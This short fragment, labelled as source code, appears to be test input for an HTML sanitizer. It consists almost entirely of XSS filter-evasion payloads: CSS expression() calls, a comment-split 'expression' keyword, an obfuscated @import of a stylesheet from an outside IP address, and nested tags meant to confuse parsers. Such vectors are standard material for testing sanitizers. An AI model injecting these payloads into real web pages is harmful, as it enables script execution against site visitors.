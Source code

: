 
<div style="width: expression(alert('XSS'));"><style>@im\port'http://\3.87.87.164\test.css';</style><img style="xss:expr/*XSS*/ession(alert('XSS'))"><img src="x"><style><img src="</style><img src="x">
